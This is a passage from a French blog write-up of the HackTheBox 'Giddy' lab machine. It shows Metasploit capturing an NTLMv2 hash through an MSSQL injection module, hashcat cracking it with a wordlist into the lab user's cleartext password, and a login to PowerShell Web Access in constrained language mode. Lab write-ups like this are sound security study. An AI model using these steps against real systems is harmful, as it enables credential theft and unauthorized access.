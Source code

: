 Il se passe pas loin d'une minute avant que le hash nous parvienne (le suspense était à son comble :D )  

```plain
msf auxiliary(admin/mssql/mssql_ntlm_stealer_sqli) > [*] SMB Captured - 2018-09-09 16:05:03 +0200
NTLMv2 Response Captured from 10.10.10.104:50510 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:3dd421f5a649e9d8791e12079d40deba
NT_CLIENT_CHALLENGE:0101000000000000955d6e450f49d4014a45499f2100a5a400000000020000000000000000000000
```

[Et on ne regrette pas sa soirée !](https://www.youtube.com/watch?v=XqhOTzgqHug)  

Un petit coup de *hashcat* plus tard et on a le password en clair :  

```plain
$ hashcat-cli64.bin -a 0 -m 5600 yolo_netntlmv2 /opt/wordlists/rockyou.txt
Initializing hashcat v2.00 with 4 threads and 32mb segment-size...

Added hashes from file yolo_netntlmv2: 1 (1 salts)
Activating quick-digest mode for single-hash with salt

STACY::GIDDY:1122334455667788:3dd421f5a649e9d8791e12079d40deba:0101000000000000955d6e450f49d4014a45499f2100a5a400000000020000000000000000000000:xNnWo6272k7x

All hashes have been recovered
```

Oh Oh voilà Stacy
-----------------

[On aurait pu penser que ce serait un beau cadeau](https://www.youtube.com/watch?v=BQVBjHLXHbo) mais si on tente d'utiliser les identifiants pour RDP ou WinRM... c'est l'échec total :(   

Heureusement les identifiants fonctionnent sur *Powershell Web Access*. La mire de login est toutefois assez pointilleuse puisque le nom d'utilisateur doit être *GIDDY\stacy* et non *stacy* tout court :(   

On obtient alors une session Powershell mais la joie est de courte durée puisque l'on est dans un mode de langage restreint (à différencier [des modes d'exécution](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6), ici la valeur par défaut est en place). Le plus gênant est que l'on ne peut pas créer de nouvel objet donc pas de *WebClient* pour télécharger d'autre code Powershell ou passer un meterpreter via *web\_delivery*.  

![HackTheBox Giddy PowerShell Web Access session in constrained language](https://github.com/devl00p/blog/raw/master/images/htb/giddy_pwa_session.png)
